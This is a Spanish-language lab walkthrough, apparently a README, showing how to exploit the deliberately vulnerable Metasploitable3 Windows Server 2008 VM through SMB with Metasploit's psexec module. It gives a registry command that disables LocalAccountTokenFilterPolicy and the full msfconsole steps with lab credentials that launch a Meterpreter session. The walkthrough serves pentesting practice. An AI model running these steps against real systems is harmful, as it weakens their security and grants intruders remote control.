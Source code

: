 ## Vulnerabilidades Metasploitable3
Metasploitable3 es una máquina virtual que contiene desde su creación vulnerabilidades a propósito, con el fin de que sirva como un campo de pruebas para aquellos que quieran hacer pentesting, es decir, probar a explotar la máquina mediante uno de estos vectores.

Metasploitable3 viene con dos máquina virtuales, Windows Server 2008 y Ubuntu 14.04 (sin GUI).

### psexec
Psexec es una herramienta de Windows que sirve de reemplazo ligero a telnet, permitiendo ejecutar procesos en otros sistemas, completando la interactividad completa para las aplicaciones de consola sin tener que instalar manualmente el software cliente.

Sin embargo, en nuestro Windows Server 2008, esta herramienta contiene un agujero de seguridad. Metasploit (una librería de scripts diseñados para pentesting) tiene un módulo llamado `exploit/windows/smb/psexec` que permite explotarlo de forma remota si se conoce la contraseña de un usuario. Por otro lado, el exploit funciona a través de SMB, por lo que el servicio y su puerto correspondiente (445) deben estar activados.

Cabe aclarar que, para que el módulo funcione, Windows Server 2008 debe tener una política concreta de seguridad desactivada, la cual es `LocalAccountTokenFilterPolicy`. De forma simplificada, esta política es un filtro que previene que se usen privilegios elevados a través de la red. Para desactivarla, se puede ejecutar este comando a través de una CMD:

```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

Los pasos para realizar el exploit son los siguentes:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.129
RHOST => 192.168.1.129
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass vagrant
SMBPass => vagrant
msf exploit(psexec) > exploit
```

El proceso es el siguiente: Abrimos la terminal de metasploit, y seleccionamos `exploit/windows/smb/psexec` mediante el comando `use`. Posteriormente le decimos al programa a qué IP queremos mandar el ataque, en nuestro caso a la `192.168.1.129`. Posteriormente se le indica el usuario y la contraseña que queremos utilizar para el ataque (Administrator y vagrant), y por últmo ejecutamos el exploit mediante el comando igualmente llamado `exploit`.

Por defecto, la payload (el código malicioso que se ejecuta en el dispositivo al que queremos acceder) se tratará de Meterpreter, un programa muy potente que permite gran control sobre el sistema operativo, que nos permitirá explorar, modificar, borrar archivos, extraer usuarios y contraseñas hash, etc.